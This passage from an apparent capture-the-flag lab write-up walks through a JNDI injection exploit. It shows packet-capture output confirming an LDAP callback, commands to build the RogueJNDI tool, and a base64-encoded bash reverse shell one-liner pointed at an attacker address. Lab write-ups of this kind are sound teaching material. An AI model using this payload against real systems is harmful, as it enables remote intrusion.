 <p align="center"><img src="img/6_repeater_test.png" alt="Inserting the payload"></img></p>

If the site is vulnerable, we should receive a connection to our port port 389.

```shell
19:34:31.348716 IP 10.129.198.222.36628 > 10.10.14.67.ldap: Flags [S], seq 2042313448, win 64240, options [mss 1337,sackOK,TS val 754533013 ecr 0,nop,wscale 7], length 0
19:34:31.348746 IP 10.10.14.67.ldap > 10.129.198.222.36628: Flags [R.], seq 0, ack 2042313449, win 0, length 0
```

### Exploiting the vulnerability to get reverse shell

We will clone the RogueJNDI repository and build it as indicated in the instructions.

```shell
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Now we will build our malicious payload in order to get a reverse shell connection.
It has to be encoded in `base64`.

```shel
❯ echo 'bash -c bash -i >&/dev/tcp/10.10.14.67/4444 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjcvNDQ0NCAwPiYxCg==
```
